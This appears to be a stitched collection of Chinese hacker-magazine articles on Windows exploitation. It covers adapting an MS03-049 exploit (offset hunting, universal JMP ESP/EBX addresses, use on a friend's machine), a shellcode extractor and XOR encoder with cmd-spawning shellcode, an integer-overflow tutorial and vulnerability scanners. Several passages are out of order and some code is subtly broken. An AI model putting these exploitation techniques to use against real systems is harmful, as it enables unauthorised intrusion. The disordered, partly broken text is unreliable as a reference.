**WTF：**Windows XP SP2 相信是大家都在关注的一个系统，这个版本刚推出的时候，由于其具有溢出保护机制，因此传统的溢出利用方式已经对它没有效果，它也因此而备受争议。随着时间的推移，XP SP2 也慢慢暴露出与以前的操作系统版本存在的兼容性问题，比如，有的软件在 Windows 2000 或 XP SP0、SP1 上能正常使用，在 SP2 上却不行；XP SP2 对利用原始套接字传送 TCP 数据包做了很大的限制，导致我们开发某些网络程序的时候出现障碍，等等。于是，出现了大量的用户仍然坚持长期使用其他版本系统的情况。好了，废话到此为止，先来看文章。

### 从 MS03-049 漏洞利用看调试系统泄露


文/图 dangguai27

本文我主要是以前段时间利用 WorkStation 服务溢出漏洞（MS03-049）过程中遇到的一些问题为基础，谈谈我是怎样通过对该系统进程的调试来达到利用该漏洞为自己服务的。我的目的不完全是讲这个漏洞，而是更想通过介绍漏洞的利用过程来探讨一下以后在没有公布利用代码，或者有人公布了利用代码但是在关键的地方有所保留的情况下，如何能一步一步地写出自己的利用代码。当然，现在的方法只是很初步的。

#### 尽可能地利用现有的资料

前段时间闲得无聊，想看看有什么新的溢出漏洞可以利用，但是打开 Xfocus 和 Nsfocus 一看，实在找不到新的基于 Windows 的堆栈溢出漏洞。于是就想起了去年的 WorkStation 漏洞好像没有爆发蠕虫，也就是说虽然网上已有相关补丁，但该漏洞还是有广泛存在的可能性。于是，我决定拿它来练练手。

EEYE 发现的 MS03-049 溢出是在 Wkssvc.dll 的某个 API 中 call vsprintf 函数时发生的。我后来找到了 Snake 的两篇分析文章，了解了漏洞的原理以及适用范围，这里不再多讲。遗憾的是，可能由于舆论的压力，Xfocus 或 Nsfocus 都没有在显要的位置公布利用代码，最后我费了好大的力气才从论坛上找到了 Sbaa 写的代码。有了利用代码，那当然马上试一试。好家伙！居然很快就进了朋友的一台机器，如图1、图2所示。


居然这么顺利？！既然如此，看看能否将利用代码改写为自动传送文件。好在这方面的 ShellCode 以前编写过，那就用现成的。现在剩下的就是找到溢出点再往下修改即可。为了方便起见，以下的工作都是针对 Windows 2000，并且当前系统分区为 Fat32。

#### 溢出点的确定

溢出点当然是从现成的代码中找了。再次打开 DOS 窗口的源代码，发现其中有两处值得注意的地方，一个地方如图3所示：

```c
memcpy(szBuffer, shellcode, sizeof(shellcode) - 1);
...
memcpy(szBuffer+1851, "\x1b\x4a\xfa\x7f", 4);
memcpy(szBuffer+2017, "\x1b\x4a\xfa\x7f", 4);
szBuffer[2048]=0;
```

图3

```c
|ShellCode|AAAAAAAA...|跳转地址|AAAA...|
```

另一个是代码中发送数据包的安排如下：奇怪！整个代码中只有这个地址覆盖，但是 0x7ffa4a1b 是 Windows 2000 下通用的 JMP EBX 地址。我最初的理解是作者要覆盖 SEH 的处理函数地址，但是为什么在两处使用 0x7ffa4a1b 呢？而且没有向前跳转的指令，为何刚好跳到 ShellCode 开始的地方呢？还有，究竟溢出点在什么地方？WorkStation 服务究竟分配了多少个字节的空间来存储参数？Snake 在分析文章中大概指出在 2023 附近，那就先试试这个。

我填充好数据后，在第 2023 字节开始的地方覆盖上通用的 JMP ESP 地址 0x7ffa4512，后面大约 40 个字节为 `\xeb\xfe`（为什么要这样做继续往后看！），然后打开 SoftICE。如果溢出点在这里的话，SoftICE 会弹出来停在“eb fe”处。可惜，这次没有出现想要的效果，显然 2023 不是溢出点。但是不用急，再从 2001 到 2040 这段区域内依次填写“ABCD...XYZ0123456789JJJJ”，刚好 40 个字节。编译、连接，得到可执行文件，然后重启系统（这是比较繁琐的地方，每次试验后都得重启），正好弹出来如下图4所示的信息。


现在就清楚了，0x54535251 对应的是“QRST”，对应位置是在 2017 处。也就是说，可以认为 WorkStation 服务分配了 2013 个字节的缓冲区来存放参数，而函数返回地址是在第 2017（下标）字节处。溢出点找到了，下面的操作也就好做一些了。

#### 检测 EIP 之后的保留地址

前面我在探测 2023 是不是包含函数返回地址时，在后面约 40 个字节填满了 `\xeb\xfe`，目的其实在于检查 JMP ESP 后面是否有保留地址。因为有时候，BUF 中填写 JMP ESP 的后面是不能直接跟 ShellCode 的。例如 RPC（MS03-026）漏洞就是在 JMP ESP 后面必须留 8 字节的保留地址，那么在 WorkStation 服务漏洞中呢？按前面的方法一试，如图5所示。


图5

从图5可以看出，0x7ffa4512 之后到执行 `eb fe` 的地方刚好有 12 个字节，换句话说这 12 个字节就是保留地址。一般情况下，我们只需要把 ShellCode 放在这 12 个字节之后就可以了。

#### 检测接收缓冲区大小

其实我觉得这是一个比较容易忽略的地方，在有的漏洞利用过程中，可能会出现该服务用于接收网络参数的缓冲区大小受限。如果是这种情况，我们就不能把 ShellCode 放在 JMP ESP 地址的后面，而应该考虑放在前面。这个检验方法从 SoftICE 里查看内存就知道了，这里不再多讲。当然，经过测试 WorkStation 服务漏洞不存在这个问题。

#### 使用通用跳转地址

能采用通用的跳转地址最好。即使找不到通用的 JMP ESP 的地址，也可以找找其他通用跳转地址，而且有的服务本身就有通用的跳转地址。例如 SQL Resolution 服务漏洞中，就有一个通用的 JMP ESP 地址 0x42b0c9dc，而 RPC 溢出漏洞中有通用的具有 JMP ESI 功能的跳转地址 0x0100139d。

如果要想跳转地址更通用，这里推荐现在比较流行的两个。对 Windows 2000、XP、2003 都通用的具有 JMP EBX 功能的地址是 0x7ffa1571，通用的具有 JMP ESP 功能的地址是 0x7ffa4512。在 WorkStation 服务漏洞中，我用的是 0x7ffa4512。

接下来，就可以改写我想要的传送文件并执行的利用代码了，ShellCode 是以前编写好了的，这里不再讲述。写好的利用代码和下载 Sbaa 的利用代码都附在光盘中。

#### 利用 JMP ESP

这里再补充一点。前面已经说过，Sbaa 的代码中其实有效地覆盖函数返回地址的代码只有一句 `memcpy(szBuffer+2017, "\x1b\x4a\xfa\x7f", 4)`，但是它的 ShellCode 是放在 szBuffer 的最前面的。从前面的分析入手，肯定是函数返回时 ebx 指向了 szBuffer！通过 SoftICE 查看如图6所示。


图6

EBX = 0x00109744，而 szBuffer 的首地址也是 0x00109744，果然和想象的一样！

我之所以要说这一点，其实是想说明我们对漏洞利用的原理其实都差不多，但是实现的手法却可以有多种。具体怎么实现，那是八仙过海，各显神通。

好了，上面就是我通过利用 WorkStation 服务漏洞中得出的一些体会，可能有的地方写得不是很清楚，希望能和大家相互交流。此外，本文中对 SoftICE 的抓屏我没有其他办法，是用数码相机直接照下来的，所以有点模糊，希望大家见谅。

【本文涉及的代码（程序），请见随书光盘】

#### 我来写：ShellCode 生成器

文/图 Scukr 古开元


《黑客防线》杂志以前 N 多文章已经介绍了 ShellCode 的编写，所以关于 ShellCode 的编写不是本文的目的。一般情况下，我们都是用汇编写好实现 ShellCode 功能的汇编代码，然后再提取十六进制，那怎么提取呢？有人说用 VC 反汇编后，可以得到对应的十六进制代码，然后手抄！Oh……晕死！有人说用内存复制！Oh……也比较笨，而且还要自己做一些麻烦的处理。呵呵，说了这么多废话，就是引出本文的写作目的：给大家介绍如何通过编程来实现提取 ShellCode 的十六进制代码，并且能提供对 ShellCode 进行 XOR 加密而避开特殊字符的限制。

> 小提醒：上面 0x77e4fd35 是 WinExec 函数在作者计算机（Windows XP SP1）上的函数入口地址，不同的系统该地址可能不同。

这段汇编代码实现的功能对应的 C 语言如下：

```c
#include <windows.h>
void main()
{
    char cmdline[4] = "cmd";
    WinExec(cmdline, SW_SHOW);
}
```

如果我们用在 VC 的内联汇编中，就应该是下面这样的格式：

```c
#include <windows.h>
void main()
{
    __asm{
        push    ebp
        mov     ebp, esp
        push    ebx
        mov     byte ptr [ebp-4], 63h
        mov     byte ptr [ebp-3], 6Dh
        mov     byte ptr [ebp-2], 64h
        mov     byte ptr [ebp-1], 0

        push    5
        lea     eax, [ebp-4]
        push    eax
        mov     eax, 0x77e4fd35
        call    eax
        pop     esp
    }
}
```

这里首先要感谢 delicon（国外的一个牛人），因为我这里的编程实现有部分借鉴了他提供的源代码。其实在安全焦点，navyseals 已经提供了 ShellCode 提取的小工具。如果大家只是要用工具，那么可以直接去下载来用。

如果是实现小型功能的 ShellCode，我们大可以用 VC 的内联汇编功能；但如果是要实现功能复杂一点的 ShellCode，VC 的内联汇编就远远不能满足我们的要求了，而且内联汇编不易移植，这时候我们就要换一个更为强大的汇编编译器 NASM（附件里有收录），我们可以先用汇编写好代码，比如我们写一段开 DOS 窗口的汇编代码，如下所列：

```asm
push    ebp
mov     ebp, esp
push    ebx
mov     byte ptr [ebp-4], 63h    ; 'c'
mov     byte ptr [ebp-3], 6Dh    ; 'm'
mov     byte ptr [ebp-2], 64h    ; 'd'
mov     byte ptr [ebp-1], 0      ; '\0'
push    5                         ; SW_SHOW
lea     eax, [ebp-4]
push    eax
mov     eax, 0x77e4fd35
call    eax
pop     esp
```

看，也就是把内联汇编块用 `__asm{}` 包起来。好，我们编译运行，可爱的 DOS 窗口就弹出来了，如图1所示。


图1

那么我们怎么运用 NASM 来编译汇编代码呢？很简单，把实现功能的汇编代码段（比如上面这段开 DOS 窗口的代码）在代码的第一行加上 `BITS 32`，如图2所示。然后把汇编代码段里的类型转换指令 `PTR` 全部去掉（因为 NASM 的 `BYTE` 已经做了优化，它本身已经相当于 MASM 的 `PTR BYTE` 了），保存在一个后缀名为 `.asm` 的文件里，比如上面的，我保存为 `cmd.asm`，然后在命令行下输入下列命令：


```bash
nasm -s -fbin cmd.asm
```

参数解析：

- `-s`：重定向错误消息到标准输出，便于查看错误。
- `-f` 后接有效输出格式，比如 `-fbin`、`-fwin32`、`-fobj` 等。
- 如果不跟格式，默认视为 `-fbin`，生成平坦格式二进制文件。

如果没有错误，就会生成一个名为 CMD 的文件，如果用 UltraEdit 查看，呵呵，你会发现里面就是我们想要的 ShellCode 十六进制码（如图3所示）。有些读者开始用鼠标“框”，然后复制。呵呵，大哥您悠着点，我们还没完，你不觉得这样跟在 VC 里用内存复制没什么区别吗？而且你还要手动地在每个字节前添加 `\x` 或 `0x`。既然十六进制码都有了，我们还写不出一个提取 ShellCode 的小程序吗？呵呵，废话少说，直接给出提取 ShellCode 的 C 代码。


```c
void ShellCodeGenerater(char *file)
{
    int iFileSize;
    FILE *fp = NULL;

    fp = fopen(file, "rb"); // 以二进制只读模式打开文件
    ...
}
```

```c
if( fp == NULL )
{
    printf("Error: Unable to open %s!\n", file);
    exit(1);
}

// 计算文件大小
fseek(fp, 0, SEEK_END);
iFileSize = ftell(fp);
fseek(fp, 0, SEEK_SET);

BYTE bb;
char *buff = (char *)malloc(iFileSize);
if (fgets(buff, iFileSize, fp) == NULL)
{
    printf("Error: Unable to read from file.\n");
    exit(1);
}

FILE* myfile;
myfile = fopen("ShellCode.txt", "w");
fprintf(myfile, "char shellcode[] = \n");
fprintf(myfile, "\"\"");
for( int i=0; i < iFileSize; i++ )
{
    bb = buff[i];
    fprintf(myfile, "\\x%2.2X", bb);
    if(i%16==0)
    {
        fprintf(myfile, "\"\n");
        fprintf(myfile, "\n\n");
    }
}

fclose(myfile);
fclose(fp);
return;
```

整个程序思路很简单，就是基本的文件读取操作而已，提供一个文件名，按二进制格式读取，然后在每个字节前加上 `\x`，输出到一个文件名为“ShellCode.txt”的文件中。简单吧！比如我们编译上面的程序后生成名为 `ShellCode_Gen.exe`，那么对于前面生成的 CMD 文件，我们就可以在命令行写下：`ShellCode_Gen.exe CMD`。如果没有错误发生，就得到了 ShellCode.txt 文件，打开看看，如图4所示。


这样就可以轻松地复制了，而且免去了手动添加`\x`的痛苦。

大家都知道，一般用于缓冲区溢出的ShellCode都对编码有要求，最典型的就是不允许`0x00`空字符的存在，因为在传输过程中它会截断我们的ShellCode而导致溢出失败。更特殊的，对于不同的漏洞程序，还有特殊字符的限制，更加迫使我们对ShellCode进行编码。下面，我们通过修改上面的程序来解决这些问题吧。

最普通的情况是，我们可以选择一个合适的XOR值（比如常见的`0x97`或`0x99`），对整个ShellCode里所有字节进行XOR，然后在解码的时候再XOR回来。

对于上面的`void ShellCodeGenerater(char *file)`，我们做一点小改动，给它多加一个参数：

```c
void ShellCodeGenerater(char *file, char *xorchar)
```

其中第2个参数是我们在命令行下赋给程序的第2个参数，它就是我们用来XOR的单个字节，比如`0x97`。

我们的思路和上面是一样的，就是在写入ShellCode.txt前，对每个字节XOR一次，所以需要开辟一块大小和`buff`一样的空间来存放XOR后的值，然后逐个按位异或，并记录包含`\x00`字节的个数：

```c
for(int i=0; i<iFileSize; i++)
{
    // DEcodeChar 变量利用 strtoul(xorchar, NULL, 0) 转换而来
    buff2[i] = buff[i] ^ DEcodeChar;
    if (buff2[i] == '\x00')
        CountOfNull++;
    // CountOfNull 用来计数 '\x00' 的个数
}
```

到这还没完，我们只是避开了`\x00`空字节，那其他的特殊字符呢？比如RPC溢出利用中对`\`做了限制？下面来解决这个问题，精益求精嘛。上面的程序只需要改动一点点，先添加一个函数，它检验并计算存在多少个我们所指定不包括`\x00`在内的非法受限字符，该函数定义如下：

```c
int GetNumOfIllegalChar(char *buffer, char *IllegalChar)
{
    char *p;
    int count = 0;
    for (; *IllegalChar; IllegalChar++)
    {
        p = strchr(buffer, *IllegalChar);  // 查找非法字符
        if (p) count++;
    }
    return count;
}
```

其中，`buffer`指向的是`buff2`所指的缓冲区，`IllegalChar`所指的字符串为程序命令行的第3个参数，`GetNumOfIllegalChar()`返回的是不包括`\x00`在内的非法字符数。我们把这个函数放在`ShellCodeGenerater()`里调用，所以得再给`ShellCodeGenerater()`添加第3个参数，让它接受程序的第3个命令行参数。

```c
void ShellCodeGenerater(char *file, char *xorchar, char *specialchar)
```

详细的源代码参照附件`encodeshellcode.cpp`。对选取的XOR值只要能避开`\x00`和非法字符即可。比如`0x96`不行，换`0x97`，如果还不行，换`0x99`，直到可行为止。只要受限字符不是太多，总会得到适合的XOR值的。最后得到我们的加密ShellCode程序。假如用上面CMD文件做试验，“`0x97`”做XOR值，受限字符为“`\:()|`”，那么在命令行下就可以这样使用：

```bash
encodeshellcode.exe CMD 0x99 \\:()|
```

得到结果如图5所示。


看反查部分，指出有一个不合法字符。那换`0x97`试试：

```bash
encodeshellcode.exe CMD 0x97 \\:()|
```

得到结果如图6所示。


再打开生成的ShellCode.txt，如图7所示。


哈哈，这就是我们可用的编码过的ShellCode了！本文介绍的编程实现虽然很简单，而且编码也存在一定的局限性，但大家可以发挥聪明才智，将其改进完善，相信一定会非常实用的。真诚希望本文能给正在学习缓冲区溢出和ShellCode技术的你一点帮助。

## Windows整数溢出初步


文/图 曹军/dangguai27

掐指算来，学习和研究溢出技术已经一年半了。这段时间里，调试和利用了不少的堆栈、堆溢出漏洞，RPC堆栈、堆两个溢出漏洞，SQL解析服务溢出漏洞，Serv_U MDTM溢出漏洞以及WorkStation、Foxmail、LSA、RealPlayer等。技术上可算受益匪浅。另一方面，我们的知识面不能局限于堆和栈溢出领域里，其实整数溢出、文件流溢出、C++中溢出覆盖虚函数指针技术等其他溢出技术，在漏洞攻击中也是很有用的。其中整数溢出技术在很多时候会间接导致缓冲区溢出的产生，例如JPEG溢出漏洞（MS04-028），这看起来是一个堆溢出漏洞，但其根源恰恰就是由于无符号短整型溢出造成的（详情可参见《黑客防线》2004年第11期中相关文章）。更早一些，如以前的SSH crc32远程溢出漏洞、apache chunked漏洞、openssh Challenge-Response机制远程溢出漏洞等，都是由整数溢出引发的缓冲区溢出问题。因此，尽管整数溢出技术提出的时间很早，但从我们的认识角度出发，它反而是一门较新的技术。正好我也准备对该技术进行系统的学习，下面就让我们一起来对整数溢出技术有个初步的认识，也是为下阶段进行相关漏洞的利用打下一些理论基础。

上面只是说明整数溢出的一个简单例子，归根到底，造成整数溢出漏洞的根本原因还是我们编程人员由于自身疏忽而对整数进行了错误操作引起的。

```c
/* 整数溢出示例1 */
#include "stdio.h"
int main()
{
    int nIn; // 32bits
    unsigned short sOut; // 16bits

    printf("nIn:");
    scanf("%d", &nIn);
    sOut = nIn;

    printf("sOut:%d\n", sOut);
    return 0;
}
```

图1


图2

#### 整数及整数溢出

关于整数的概念，应该说我们在上中学的时候就学过了。这里我们需要了解的是：整数分为无符号和有符号两类，其中有符号整数最高位为1，正整数最高位为0，无符号整数无此限制。此外，常见的整数类型有8位（布尔、单字节字符等）、16位（短整型、UNICODE字符等）、32位（整型、长整型）以及64位（__int64）等。对于本文来说，了解这些就基本足够了。

关于整数溢出呢，简而言之，就是往存储整数的内存单位中存放的数据大于该内存单位所能存储的最大值，从而导致了溢出。举个简单例子，代码如图1所示。当整型变量`nIn`输入小于`sOut`的最大值65535时，输出正常；否则，输出的值是对65536取模得到的，如图2所示。

#### 整数误操作

一般说来，主要有3类整数操作可以导致安全性漏洞，下面列出每类的典型例子。

- 1. 无符号整数的下溢和上溢  
  无符号整数的下溢问题是由于无符号整数不能识别负数所导致的，示例代码如下：

```c
BOOL fun(size_t cbSize)
{
    if (cbSize > 1024)
        return FALSE;
    char *pBuf = new char[cbSize - 1];
    // 未对new的返回值进行检查
    memset(pBuf, 0x90, cbSize - 1);
    ...
    return TRUE;
}
```

在上面代码中，在调用`new`分配内存后，程序未对调用结果的正确性进行检测。如果`cbSize`为0的话，则`cbSize - 1`为-1。但是`memset`中第3个参数本身是无符号数，因此会将-1视为正的`0xffffffff`，函数执行之后程序当然就只有崩溃了。

无符号整数的上溢问题也不难理解，示例代码如下：

```c
BOOL fun(char *s1, size_t len1, char *s2, size_t len2)
{
    if (len1 + len2 + 1 > 1024)
        return FALSE;

    char *pBuf = new char[len1 + len2 + 1];
    if (pBuf == NULL)
        return FALSE;

    memcpy(pBuf, s1, len1);
    memcpy(pBuf + len1, s2, len2);  // 可能造成程序崩溃
    ......
    return TRUE;
}
```

本例子中代码看起来没什么问题，该检测的地方也都检测了。但这段代码却可能出现整数上溢问题，`len1`和`len2`都是无符号整数，如果`len1 = 8`，`len2 = 0xffffffff`，由于加操作的限制，`8 + 0xffffffff + 1`产生的结果是8。也就是说，`new`操作只分配8字节的内存，而后面却要进行长达`0xffffffff`的串复制工作，结果肯定也是程序崩溃。

#### 2. 符号的问题

符号问题可以是多种多样的，但有几点是应该注意的。

- 有符号整数之间的比较。
- 有符号整数的运算。
- 无符号整数和有符号整数的对比。

这里举一个典型的例子。

```c
int copy_something(char *buf, int len)
{
    char szBuf[800];
    if (len > sizeof(szBuf))   /* [1] */
    {
        return -1;
    }

    return memcpy(szBuf, buf, len);   /* [2] */
}
```

上面代码的问题在于`memcpy`使用无符号整数作为`len`参数，但是在之前的数据边界检测使用了有符号整数。假设提供一个负数的`len`，这样可以绕过[1]的检测，但是这个值同样被使用在[2]的`memcpy`函数参数里面，`len`可能被转换成一个非常大的正整数，导致`buf`缓冲区后面的数据被重写，进而使得程序崩溃。

#### 3. 截断的问题

截断问题主要发生在大范围整数（如32位）复制给小范围整数（如16位）的时候。同样来看一个例子：

```c
BOOL fun(byte *name, DWORD cbBuf)
{
    unsigned short cbCalculatedBufSize = cbBuf;
    byte *buf = new byte[cbCalculatedBufSize];
    if (buf == NULL)
        return FALSE;

    memcpy(buf, name, cbBuf);
    ......
    return TRUE;
}
```

如果`cbBuf`是`0x00010020`，又会如何呢？`cbCalculatedBufSize`只有`0x20`，因为只从`0x00010020`复制了低16位。因此，仅分配了`0x20`个字节，却要复制`0x00010020`字节到新分配的目标缓冲区中。

如果整数溢出发生，之后的所有相关操作的结果都将发生变化。与缓冲区溢出不同的是，整数溢出发生时不会马上发生异常，即使程序执行结果与预期的不同，也很不容易发现问题所在。

前面提到，整数溢出在很多时候会导致缓冲区溢出漏洞的发生，包括堆栈溢出和堆溢出。但并不是所有由整数溢出导致的缓冲区溢出都是可以利用的。相反，大多数情况是不能利用的，原因就在于其中涉及诸如近乎4GB这样的内存操作会发生段错误。下面针对可以利用的堆栈和堆溢出分别举例。

#### 整数溢出：堆栈溢出及简单利用例子

由整数溢出导致的可利用堆栈溢出的示例代码如图3所示。

当输入超过`unsigned short`范围（如65538），在执行`s = i`后发生了`unsigned short`溢出，此时得到的`s`为`65538 % 65536 = 2`，从而躲避了后面的边界检测。继续往下执行时发生异常，如图4所示。

可见，已经将函数`fills`的返回地址覆盖为我们可以控制的数据`0x90909090`。我们这时可以像一般的堆栈溢出利用那样利用该漏洞了，这里不再多讲。

尽管这样的例子在实际中几乎不出现，但它却有效地演示了由整数溢出导致堆栈溢出的原理和过程。

```c
char overflow[] = "\x90...";
BOOL fills(int i)
{
    unsigned short s;
    char szBuf[8];
    s = i;
    if (s > 8) return FALSE;
    if (i > sizeof(overflow))
        memcpy(szBuf, overflow, sizeof(overflow));
    else
        memcpy(szBuf, overflow, i);
    return TRUE;
}

int main(int argc, char *argv[])
{
    int i;
    if (argc != 2) return -1;
    i = atol(argv[1]);
    fills(i);
    return 0;
}
```

图3

洞来说吧，除了上面的JPEG处理漏洞外，还有LoadImage API溢出漏洞、PuTTY SFTP客户端包解析整数溢出漏洞、camel-lock-helper整数溢出漏洞等。其中camel-lock-helper漏洞来自于Evolution。Evolution包含的camel-lock-helper应用程序存在一个整数溢出，本地和远程攻击者可以利用这个漏洞获得“mail”组特权……下面简单介绍一下LoadImage API溢出漏洞的触发原理。


图4

对于以后我们分析真实的漏洞会有所帮助。

#### 整数溢出：堆溢出及简单利用例子

由整数溢出导致的堆溢出的示例代码如图5所示。

Windows的USER32库的LoadImage系统API存在着整数溢出触发的缓冲区溢出漏洞。该API允许加载bmp、cur、ico、ani格式图标，并根据图片格式里说明的大小加4来复制数据；如果设置为`0xfffffffc~0xffffffff`，可触发整数溢出导致堆缓冲区覆盖。攻击者可构造恶意文件嵌入HTML页面和邮件中实施攻击。由此可见，该漏洞是整数溢出导致堆溢出的典型例子。

```c
#include "windows.h"
#include "stdio.h"
#include "winsock.h"

#pragma comment(lib, "ws2_32")

int main(int argc, char **argv)
{
    int nTotal;
    unsigned short sAlloc;
    char *pBuf1, *pBuf2;

    HANDLE hHeap = HeapCreate(HEAP_GENERATE_EXCEPTIONS, 0x1000, 0xffff);
    nTotal = atoi(argv[1]);
    sAlloc = nTotal - 2;

    pBuf1 = (char *)HeapAlloc(hHeap, 0, sAlloc);
    pBuf2 = (char *)HeapAlloc(hHeap, 0, 32);

    HeapFree(hHeap, 0, pBuf1);
    HeapFree(hHeap, 0, pBuf2);
    return 0;
}
```

图5

- 1. 漏洞描述：USER32的LoadImage系统API存在整数溢出触发的缓冲区溢出漏洞；可通过构造bmp/cur/ico/ani触发并获取权限。
- 2. 技术细节：LoadImage函数定义如下（后续内容）。

图6

细心的读者很快就可以发现，上面这个例子和JPEG堆溢出漏洞的原理其实差不多。当输入为1时，用于分配内存的参数`sAlloc`为-1，但`unsigned short`类型无法识别负数，从而认为是正数`0xffff`，分配了超大的内存块，进而覆盖后面的堆管理结构。翻开最近一年的漏洞公告，关于整数溢出方面的漏洞并不少见。

#### 小结

大家平时都注重普通的缓冲区溢出，特别是堆栈溢出技术，对于整数溢出等其他技术更多的是避而不谈。本文的目的是和大家一起来对整数溢出有个初步认识，因此讲得大多是基础性的东西，举例也很简单，同时介绍了一些真实的整数溢出漏洞，有兴趣的朋友可以进行调试和利用。

### 溢出漏洞扫描技术


文/图 曹军/dangguai27

写了多篇溢出技术方面的文章，内容更多的是涉及漏洞调试、分析利用以及纯粹的ShellCode编写技巧。其实要掌握好一个溢出漏洞，漏洞的扫描技术也是同样重要的。本文我将和大家一起来简单讨论一下常见的溢出漏洞扫描技术，并结合新老两个漏洞例子——SQL Resolution溢出漏洞和PNP溢出漏洞（MS05-039）分别讲解。

### Windows下溢出漏洞扫描方法

对于漏洞扫描，我们常用的方法有以下几种。

- 1. 检测服务端口开放与否。  
  这是最基本，也是准确率最低的一种方式。直接向目标机器的指定端口发送带有SYN标志的TCP数据包，以检测端口是否开放。如果端口开放，则认为漏洞存在，否则认为不存在漏洞。在无法通过其他方式进行扫描的时候可以采用这种方法，我在写CCProxy溢出的漏洞扫描代码的时候就是这样做的。

```c
// 连接目标机器808端口
SOCKET csock;
csock = socket(AF_INET, SOCK_STREAM, 0);
sockaddr_in target;
target.sin_family = AF_INET;
target.sin_addr.s_addr = dwDestIp;
target.sin_port = htons(808);
int ret = connect(csock, (sockaddr *)&target, sizeof(target));
if (ret == 0)
{
    printf("CCProxy漏洞\n目标机有漏洞\n\n");
}
```

- 2. 获取服务软件的Banner信息。  
  我们通过客户端与服务端进行连接的过程中，有时服务进程会返回相关的Banner信息，这些信息里面包含了服务软件的版本等内容。通过Banner信息来判断服务软件是否存在溢出漏洞是一种常用的方式，也有一定的准确率。因为很多软件升级之后以前的漏洞就不存在了，而升级之前的版本用户可能又疏于打漏洞补丁。Serv_U MDTM溢出漏洞的扫描技术就是这样一个例子，Serv_U 5.0.0.9及以下版本都有这样的漏洞，而更高的版本则不存在。该漏洞比较老了，其扫描代码我这里不再啰嗦，有兴趣的朋友可以和我联系。

- 3. 直接爆破。  
  将直接攻击作为扫描，如果攻击成功，则说明存在漏洞。假设你无路可走，不妨试试这一招。如果你只想做安全检测而不想破坏服务的话，最好不要采用这种方式，否则直接攻击可能导致目标服务死掉。其实很多蠕虫不就是采用的这种方式吗？

- 4. 根据安装补丁前后的响应报文的不同之处进行判断。  
  这种方法最为安全、准确，实现难度也最大。要求分析者对漏洞自身的机制要很熟悉。很多存在漏洞的服务软件，在打补丁前后，我们发送应用层请求后，返回的报文内容是有细微的差别，而我们恰恰就可以通过分析这一点点差别来判断溢出漏洞的存在。我在写DCOM、RPC、SQL Resolution、LSA、PNP等多数漏洞的扫描都是这样实现的。大家可能要问了，这种方法的难点何在呢？其实难点就在于对特定服务的实现细节的理解和应用层通信协议（特别是SMB、RPC等协议）的分析。这部分做得不好的话，是写不出有效的Client的。更多的时候我们很难清楚了解服务软件内部机制，特别是对于微软的一些服务软件。这种情况下，我们可以拿到别人的未公布源代码的扫描工具，通过反汇编、跟踪分析网络数据包等方式逆向还原出工具的代码。大家还没有能力对系统底层进行深入分析的时候，更多地采用这种方式是明智的。只有知识一步步积累多了，我们才能做更加深入的分析。

看两个实际的例子吧。

## SQL和PNP漏洞扫描代码实现

SQL Server 2000 SP2及以前的版本中的 Resolution 服务存在漏洞。如果向服务主机 UDP 的 1434 端口发送以 0x04 开头的报文，则服务会返回当前运行的 SQL Server 实例。但如果发送的该报文长度过长，则发生堆栈溢出。此外，如果发送其他格式的报文，例如以 0x0a 开头的请求，则服务进程会将该请求作为错误的请求报文处理。漏洞细节和利用我就不多说了，网上有现成的代码。这里我们来看看漏洞的扫描。通过拦截数据包并分析，我们发现在打补丁前后，向服务进程发送错误请求（0x0a 开头的）后，返回的报文内容是不一样的。如果仍然返回以 0x0a 开头的报文，则证明是存在漏洞的，否则不存在漏洞。主要代码如下。

建立空连接：

```cpp
// 探测线程函数
UINT ListenThreadProc(LPVOID pPram)
{
    Total_Param *tp;
    tp = (Total_Param *)pPram;
    SOCKADDR_IN Udpfrom;
    int UdpfromLen = sizeof(Udpfrom);
    // 下面发送请求数据，以'\x0a'开头
    tp->bufSend[0] = '\x0a';
    int iError;
    if(sendto(tp->sock, tp->bufSend, sizeof(tp->bufSend), 0, (sockaddr*)&tp->addr_in, sizeof(tp->addr_in)) == SOCKET_ERROR)
    {
        iError = WSAGetLastError();
        return 1;
    }
    // 接收返回报文
    while(true)
    {
        memset(tp->bufRecv, 0, sizeof(tp->bufRecv));
        int n = recvfrom(tp->sock, tp->bufRecv, sizeof(tp->bufRecv), 0, (sockaddr*)&Udpfrom, &UdpfromLen);
        if(n > 0 && tp->bufRecv[0] == '\x0a'){
            //printf("%s\n", tp->bufRecv);
            tp->IsVulnerable = true;
            break;
        }
    }
    return 0;
}
```

这个漏洞的扫描代码实现起来很简单，大家可以直接提取上面的代码。

下面再看一个复杂一点的漏洞——Windows 2000 的 PNP 溢出漏洞（MS05-039）。Windows 2000 及以上版本的 PNP（Plug and Play）服务是通过 IPC$ 命名管道 + RPC 接口的形式向外提供服务的。也就是说，要访问远程机器上的 PNP 服务，首先要通过 TCP 139 或 445 端口与目标机器建立 IPC 空连接，进而获取 PNP 服务进程中创建的命名管道 `Browser` 的客户端句柄。获取了管道句柄后，再通过该命名管道与 PNP 服务进程中的 RPC 接口进行通信，完成对服务的访问。在对 PNP 漏洞进行攻击的时候，通常是采用这样一个通信流程，在漏洞扫描的时候我们也可以按照这样一个步骤。由于我对 SMB 和 RPC 协议暂时还没有完全分析清楚，所以填充的应用层数据包也是直接从网络数据包中截获而来，而这些数据包，正是在分析 McAfee 公布的扫描工具时候得到的。通过分析，发现打补丁前后返回数据报内容刚好存在一个字节的差别，呵呵，还原漏洞扫描代码就易如反掌了。下面给出部分代码。

建立空连接：

```cpp
SOCKET ClientSock;
sockaddr_in ClientAddr;
int len;
unsigned char szRecv[0x1000] = {0};
ClientSock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
ClientAddr.sin_family = AF_INET;
ClientAddr.sin_port = htons(445);
ClientAddr.sin_addr.S_un.S_addr = inet_addr(argv[1]);
printf("[*] Connecting to 445 ... ");
// 先连接445端口，如果不成功，则连接139
if(connect(ClientSock, (const sockaddr*)&ClientAddr, sizeof(ClientAddr)) < 0)
{
    printf("Can't connecting to 445 ... ");
    printf("[*] Connecting to 139 ... ");
    ClientAddr.sin_port = htons(139);
    if(connect(ClientSock, (const sockaddr*)&ClientAddr, sizeof(ClientAddr)) < 0)
    {
        printf("Can't create NULL session!\n");
        return -1;
    }
}

// 发送72字节的reqNBSS
if(send(ClientSock, (const char*)reqNBSS, sizeof(reqNBSS) - 1, 0) < 0)
{
    printf("[-] Send reqNBSS failed\n");
    closesocket(ClientSock);
    return -1;
}

len = recv(ClientSock, (char*)szRecv, sizeof(szRecv) - 1, 0);
if(len < 0)
{
    printf("2\n");
    closesocket(ClientSock);
    return -1;
}

// 发送SMB_Negotiate
